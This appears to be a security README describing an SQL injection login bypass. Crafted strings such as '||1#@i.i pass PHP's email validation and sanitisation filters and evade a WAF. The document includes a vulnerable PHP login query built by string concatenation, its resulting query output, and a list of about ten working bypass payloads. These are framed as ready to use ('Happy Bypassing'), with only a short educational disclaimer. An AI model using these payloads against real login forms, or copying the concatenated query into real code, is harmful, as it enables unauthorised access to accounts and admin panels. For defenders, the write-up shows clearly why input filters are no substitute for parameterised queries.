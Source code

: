 # Valid Email !!

Story:
While testing a site, I came across it's admin panel and got stuck at login. The common SQLi login bypass payloads weren't working and WAF was too much disturbing.
But after observing 3 types of errors "Wrong Username or Password","Error Occured" and "Invalid Email", I found that
`'||1#@i.i` was considered as valid email and it bypassed the WAF and boom, I got in :D

After looking at the source code I saw that FILTER_SANITIZE_EMAIL and FILTER_VALIDATE_EMAIL filter were being used.

Explanation:

```
'||1#@i.i
```

is a valid email according to FILTER_VALIDATE_EMAIL filter, i.e:

```
$email = "'||1#@i.i";
$email = filter_var($email, FILTER_SANITIZE_EMAIL);
    if (filter_var($email, FILTER_VALIDATE_EMAIL)) {
		echo 'Valid email !!<br>';
    $query = "SELECT * FROM login WHERE email='$email'";
		echo $query;
	}
  
will output:
Valid email !!
SELECT * FROM login WHERE email=''||1#@i.i'
```

Therefore `'||1#@i.i` can be used as a payload for SQLi login bypass when FILTER_SANITIZE_EMAIL &/|| FILTER_VALIDATE_EMAIL are in effect.

Some other payloads:

```
--+-------------------+
'||1#@i.i
'||1=1#@i.i
'||''=''#@i.i
'||'c'='c'#@i.i
'OR''=''#@i.i
'OR'1'='1'#@i.i
'\O/R'\'/=\'/'#@i.i
'"|\|/1#@i.i
'/|\|1#@i.i
--+-------------------+
```

and some others..

FILTER_SANITIZE_EMAIL strips " therefore "||1#@i.i cannot be used

FILTER_SANITIZE_EMAIL will convert:

```
'"|\|/1#@i.i
```

to:

```
'||1#@i.i
```

Therefore it can be used when FILTER_SANITIZE_EMAIL and WAF are in place.

You can try these in vulnerable login.php file

Happy Bypassing ^i^

## Disclaimer
The contributor(s) cannot be held responsible for what you do with the information and code provided. This is intended for professional and educational purposes only.
